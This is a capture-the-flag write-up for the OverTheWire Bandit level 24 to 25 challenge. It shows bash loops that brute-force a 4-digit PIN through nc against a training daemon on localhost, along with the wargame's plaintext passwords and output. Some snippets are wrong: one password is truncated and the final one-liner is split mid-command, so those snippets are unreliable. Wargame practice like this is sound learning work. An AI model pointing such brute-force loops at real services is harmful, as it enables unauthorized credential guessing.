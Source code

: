 ## Bandit Level 24 -> Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.

## Solution

write a bruteforcing script to crack the password
I tried several times but failed to solve it quickly
the program below refers Nikkko from wooyun, the link is [HERE](http://drops.wooyun.org/tips/6211)

```
$ cd /tmp
$ vim tbf.sh
pass="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
for i in {1000..10000}
do {
if
    echo $pass $i| nc localhost 30002 | grep Wrong > /dev/null
then
    echo $i
else
    echo $pass $i| nc localhost 30002
    exit
fi
}
done
$ chmod +x tbf.sh
$ ./tbf.sh
(afer about teo hours.....I got the following)
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

---

But I think it's not necessary to use commond 'nc' so many times
I try to use redirct so as to 'nc ...' only once
It cound be faster and faster.

Like this:(~~but it doesn't work, If only someone could help me, thanks~~)
```
#!/bin/bash
pwd="MYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
exec 1>nc localhost 30002
for i in {1000..10000}
do
        echo $pwd $i
done
```

This works:(by @rvrheenen)
```
echo "" > pins && for i in {0000..9999}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> pins; done && cat pins | nc localhost 1
30002
```
This basic idea is creating a dictionary first and then transmit it to the port. A good way!
